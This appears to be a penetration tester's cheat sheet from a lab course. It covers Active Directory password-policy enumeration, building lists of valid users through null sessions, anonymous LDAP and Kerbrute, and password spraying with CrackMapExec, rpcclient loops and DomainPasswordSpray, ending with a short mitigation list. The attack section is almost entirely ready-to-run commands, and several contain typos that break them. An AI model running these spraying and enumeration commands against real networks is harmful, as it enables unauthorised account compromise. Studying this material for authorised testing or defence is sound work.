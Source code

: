 -----
# Sighting In, Hunting for a user
-----

===========================================================
### Enumerate and Retrieve Password Policies 
===========================================================

#### CrackMapExec
```bash
crackmapexec smb 172.16.5.5 -u $USER -p $PASS --pass-pol
```

#### SMB Null Sessions
```bash
rpcclient -U "" -N $IP

> querydominfo
> getdompwinfo
```

#### [enum4linux](https://labs.portcullis.co.uk/tools/enum4linux/)
```bash
enum4linux -P $IP
```

#### [enum4linux-ng](https://github.com/cddmp/enum4linux-ng)
```bash
enum4linux-ng -P $Ip -oA ilfreight
# Display the output
cat ilfreight.json
```

#### Enumerate Null Session from Windows
- Establish a null session from windows
```cmd
net use \\DC01\ipc$ "" /u:""
```

#### Enumerate Password Policy from Linux LDAP Anonymous Bind
- Using ldapsearch
```bash
ldapsearch -h $IP -x -b "DC=INLANEFREIGHJT, DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```

#### Enumerate Password Policy form Windows
- Using `net.exe`
```cmd
net accounts
```

- Using `PowerView`
```PowerShell
Import-Module ./PowerView.ps1
Get-DomainPolicy
```

**NOTE:** Must proceed with cautions to avoid accounts lockout. Please make sure to check with the organization before performing Password spraying. 

==================================
### Make a Target User List 
==================================
- We need a list of valid users domain

#### SMB NULL Session to pull user list
- Using `enum4linux`
```bash
enum4linxu -U $IP | grep "user:" | cud -f2 -d"[" | cut -f1 -d"]"
```

- Using `rpcclient`
```bash 
rpcclient -U "" -N $IP
> enumdomusers
```

- Using `crackmapexec`
```bash
crackmapexec smb $IP --users
```

#### Gather users with LDAP Anonymous
- Using ldapsearch
```bash
ldapsearch -h $IP -x -b "DC=INLANEFREIGHT, DC=LOCAL" -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -d" " -f2
```
- Using `windapsearch`
```bash
./windapsearch.py --dc-ip $IP -u "" -U
```

#### Enumerate using Kerbrute
```bash
kerbrute userenum -d inlanefreight.local --dc $IP /opt/jsmith.txt
```
- Windows Event 4768 will trigger if Kerberos event logging is enabled. If we can perform this successfully, we can add a reccomandation to implement SIEM rule to monitor such events.

#### Credentialed Enumeration 
- With acquired credentials, we can use them to build a user list
```bash
crackmapexec smb $IP -u $USER -p $PASSWORD --users
```


-----
# PASSWORD SPRAYING
-----
================
### From Linux 
================

- Using Bash one-liner
```bash
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

- Using Kerbrute
```bash
kerbrute passwordspray -d inlanefreight.local --dc $IP valid_users.txt $PASSWORD #(Welcome1)
```

- Using CrackMapExec and filtering failed logon
```bash
sudo crackmapexec smb $IP -u valid_users.txt -p $PASSWORD | grep +
```

- Validate credentials with CrackMapExec
```bash
sudo crackmapexec smb $IP -u $USER -p $PASSWORD
```

- Local Admin Password Reuse: 
```bash
sudo smb --local-aut 172.16.5.0/23 -u administrator -H $HASH | grep +
```


================
### From Windows 
================
- Use DomainPasswordSpray.ps1
```PowerShell
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue

# We can use -UserList flag to specify a users.list
```


----
# MITIGATION
-----
- MFA
- Restricting Access
- Reduce Impact of Successful Exploitation
- Password Hygiene

